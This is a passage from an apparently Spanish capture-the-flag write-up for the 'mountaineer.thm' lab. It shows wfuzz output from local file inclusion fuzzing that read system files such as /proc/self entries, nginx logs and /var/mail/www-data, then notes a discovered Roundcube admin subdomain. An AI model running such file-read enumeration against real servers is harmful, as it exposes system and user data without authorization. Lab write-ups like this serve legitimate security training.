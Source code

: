 ```
000001441:   200        0 L      0 W        0 Ch        "/proc/self/stat"                                                                                                         
000001440:   200        0 L      0 W        0 Ch        "/proc/self/net/arp"                                                                                                      
000001439:   200        0 L      0 W        0 Ch        "/proc/self/mounts"                                                                                                       
000001727:   200        5 L      28 W       1455 Ch     "/usr/share/pixmaps/debian-logo.png"                                                                                      
000001724:   200        88 L     467 W      3028 Ch     "/usr/share/adduser/adduser.conf"                                                                                         
000001848:   200        0 L      0 W        0 Ch        "/var/log/dpkg.log"                                                                                                       
000001867:   200        0 L      1 W        32448 Ch    "/var/log/faillog"                                                                                                        
000001894:   200        0 L      1 W        296088 Ch   "/var/log/lastlog"                                                                                                        
000001955:   200        2073 L   24930 W    289056 Ch   "/var/log/nginx/access.log"                                                                                               
000002034:   200        861 L    2849 W     28905 Ch    "/var/mail/www-data"                                                                                                      
000001957:   200        1286 L   30660 W    352698 Ch   "/var/log/nginx/error.log"                                                                                                
000002022:   200        17 L     66 W       26108 Ch    "/var/log/wtmp"                                                                                                           
000002046:   200        0 L      1 W        1536 Ch     "/var/run/utmp"                                                                                                           

Total time: 16.85918
Processed Requests: 2299
Filtered Requests: 2195
Requests/sec.: 136.3648
```
Tras la revisión de los diferentes ficheros, logramos enumerar un el subdominio *adminroundcubemail.mountaineer.thm*, también enumeramos el path interno donde está desplegado WordPress: